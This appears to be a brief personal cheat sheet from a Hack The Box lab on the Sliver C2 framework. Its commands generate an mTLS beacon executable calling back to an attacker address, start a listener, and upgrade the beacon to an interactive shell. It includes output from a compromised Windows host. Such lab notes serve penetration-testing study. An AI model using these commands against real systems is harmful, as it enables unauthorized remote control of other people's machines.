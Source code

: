 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)    
      
**OR**     
sliver > `use beacons`   
Select the beacon using arrows to move    
  
  
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`  
  
[] Using beacon's active C2 endpoint: mtls://10.10.16.20:80  
[] Tasked beacon SOLID_TINDERBOX (da51bf52)    
[] Session 437faed6 SOLID_TINDERBOX - 10.10.110.10:51443 (cywebdw) - windows/amd64 - Wed, 09 Aug 2023 13:16:42 EDT      
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
  
Now we got an interactive session shell.    





